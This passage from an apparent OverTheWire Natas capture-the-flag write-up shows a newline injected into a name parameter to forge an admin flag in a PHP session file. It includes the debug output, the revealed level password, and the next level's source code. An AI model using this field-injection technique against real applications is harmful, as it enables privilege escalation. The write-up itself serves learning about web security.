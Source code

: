 Since we need to URL encode the carriage return and space, the injection looks like this: <code>admin%0dadmin%201</code>. So I passed it to the URL like this: natas20.natas.labs.overthewire.org/index.php?debug&name=admin%0Aadmin%201 and here's the output:

``` plain
DEBUG: MYREAD sjj8g13u1f3ueiogqdfgf3jin1
DEBUG: Reading from /var/lib/php5/mysess_sjj8g13u1f3ueiogqdfgf3jin1
DEBUG: Read [name admin]
DEBUG: Read [admin 1]
DEBUG: Read []
DEBUG: Name set to admin admin 1
You are an admin. The credentials for the next level are:

Username: natas21
Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ

DEBUG: MYWRITE sjj8g13u1f3ueiogqdfgf3jin1 name|s:13:"admin admin 1";admin|s:1:"1";
DEBUG: Saving in /var/lib/php5/mysess_sjj8g13u1f3ueiogqdfgf3jin1
DEBUG: admin => 1
DEBUG: name => admin admin 1
```

And we successfully acquired the next password: <code>IFekPyrQXftziDEsUr3x21sYuahypdgJ</code>

### Level 21

{% img center /images/overthewire/natas/natas21.png 'natas21' 'natas 21' %}

We need to satisfy the same requirements as before to get next password:

``` php
<?

function print_credentials() { 
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas22\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
    }
}


session_start();
print_credentials();

?> 
```

{% img center /images/overthewire/natas/natas21css.png 'natas21css' 'natas 21css' %}

This page allows you to play with some CSS values. Also the session ID for this page is different than the other one.

